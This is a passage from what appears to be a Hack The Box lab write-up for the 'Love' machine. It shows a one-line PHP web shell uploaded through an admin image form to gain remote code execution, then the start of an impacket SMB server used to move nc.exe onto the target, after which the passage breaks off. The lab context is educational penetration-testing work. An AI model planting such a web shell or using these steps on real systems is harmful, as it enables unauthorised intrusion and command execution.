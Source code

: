 We can upload an image here. How about we try to upload a PHP shell ?

```php
┌──(root💀nehal)-[~]
└─# cat pwnersec.php 
<?php echo system($_GET["cmd"]); ?>
```

![](assets/img/love-htb/80-admin-uploadSuccess.png)

It looks like we are successful in uploading the shell.

The uploaded file should be in `/images`. Let us see.

![](assets/img/love-htb/80-adminRCE.png)

And we have RCE.

# [](#header-1)EXPLOITATION :

Let us first transfer `nc.exe` to the server via `smbserver`.

```
(pyTwo) ┌──(root💀nehal)-[~]
└─# /opt/impacket/examples/smbserver.py PSEC PSEC
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```
